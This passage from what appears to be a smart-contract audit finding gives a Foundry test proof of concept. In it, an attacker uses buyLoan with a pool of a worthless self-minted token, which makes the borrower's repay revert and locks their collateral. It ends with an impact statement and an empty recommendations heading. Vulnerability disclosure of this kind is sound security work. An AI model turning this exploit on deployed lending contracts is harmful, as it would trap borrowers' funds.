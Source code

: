 ```solidity
            debt: 1000e18,
            collateral: 1000e18
        });
        vm.prank(borrower);
        lender.borrow(borrows);

        // lender 1 start auction for loan 0
        uint256[] memory loanIds = new uint256[](1);
        loanIds[0] = 0;
        vm.prank(lender1);
        lender.startAuction(loanIds);

        // attacker preparation
        address attacker = address(0x999);
        vm.startPrank(attacker);
        TERC20 attackerToken = new TERC20();
        attackerToken.mint(attacker, 1000e18);
        attackerToken.approve(address(lender), 1000e18);
        bytes32 attackerPoolId = lender.setPool(Pool({
            lender: attacker,
            loanToken: address(attackerToken),
            collateralToken: address(collateralToken),
            minLoanSize: 1,
            poolBalance: 1000e18,
            maxLoanRatio: 1e18,
            auctionLength: 12 hours,
            interestRate: 0,
            outstandingLoans: 0
        }));

        // attacker `buyLoan` but use worthless token
        lender.buyLoan(0, attackerPoolId);
        vm.stopPrank();

        vm.prank(borrower);
        vm.expectRevert(); // pools[poolId].outstandingLoans -= loan.debt;
        lender.repay(loanIds);
    }
```

## Impact

The borrower is unable to retrieve his collateral because it becomes locked in a non-existent pool.

## Tools Used

Manual review, Foundry

## Recommendations
